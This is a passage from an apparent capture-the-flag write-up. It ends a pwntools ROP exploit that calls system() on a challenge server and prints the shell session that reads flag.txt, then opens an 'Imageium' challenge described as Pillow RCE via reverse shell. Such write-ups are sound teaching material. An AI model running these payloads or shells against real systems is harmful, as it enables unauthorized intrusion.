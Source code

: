     payload += p32(system) + p32(ret_addr) + p32(buf_in_bss)
    r.sendline(payload)
    r.sendline(name)
    r.interactive()


if __name__ == "__main__":
    main()

{% endhighlight %}

And here is the execution:

```
[+] Opening connection to pppr.sstf.site on port 1337: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
$ cat flag.txt
SCTF{Anc13nt_x86_R0P_5kiLl}
```

# Imageium

```
Authors: SirFrigo & Daloski
Description: RCE using old version of Pillow (reverse shell)
Category: Web/Misc
Points: 111
```

> This is yet another secure color channel mixer.
> Server: http://imageium.sstf.site
